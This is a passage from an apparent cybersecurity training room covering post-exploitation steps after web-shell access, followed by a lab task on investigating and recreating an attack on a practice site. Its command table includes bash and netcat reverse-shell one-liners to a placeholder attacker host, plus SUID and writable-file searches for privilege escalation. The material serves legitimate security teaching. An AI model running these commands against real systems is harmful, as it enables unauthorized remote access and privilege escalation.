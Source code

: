 
 ![Command being run](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358453.png)

## Making the Most of It

Once the vulnerability has been exploited and you now have access to the operating system via a web shell, there are many next steps you could take depending on \*\*a)\*\*what your goal is and \*\*b)\*\*what misconfigurations are present on the system, which will determine exactly what we can do. Here are some examples of commands you could run once you have gained access and why you might run them (if the system is running on a Linux OS like our example target system): \n

| **Command** | **Use** |
|----|----|
| ls | Will give you an idea of what files/directories surround you |
| pwd | Will give you an idea of where in the system you are |
| whoami | Will let you know who you are in the system |
| hostname | The system name and potentially its role in the network |
| uname -a | Will give you some system information like the OS, kernel version, and more |
| id | If the current user is assigned to any groups |
| ifconfig | Allows you to understand the system's network setup |
| bash -i >& /dev/tcp/<your-ip>/<port> 0>&1 | A command used to begin a reverse shell via bash |
| nc -e /bin/sh <your-ip> <port> | A command used to begin a reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
| find / -writable -type  f 2>/dev/null \| grep -v "/proc/" | Also helpful in privilege escalation attempts used to find files with writable permissions \n  |


These are just some commands that can be run following a successful RCE exploit. It's very open-ended, and what you can do will rely on your abilities to inspect an environment and vulnerabilities in the system itself.

## Practical

Your task today is two-fold. First, you must access Kibana on [MACHINE_IP:5601](http://MACHINE_IP:5601) to investigate the attack and answer the blue questions below. Then, you will proceed to Frosty Pines Resort's website at <http://frostypines.thm> and recreate the attack to answer the red questions and inform the developers what element of the website was vulnerable.


To review the logs of the attack on Frosty Pines Resorts, make sure you select the "**frostypines-resorts**" collection within ELK. Such as below:


 ![selecting the frostypines-resorts collection within ELK](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de96d9ca744773ea7ef8c00/room-content/5de96d9ca744773ea7ef8c00-1731408603792.png)


The date and time that you will need to use when reviewing logs will be **between 11:30 and 12:00 on October 3rd 2024.**
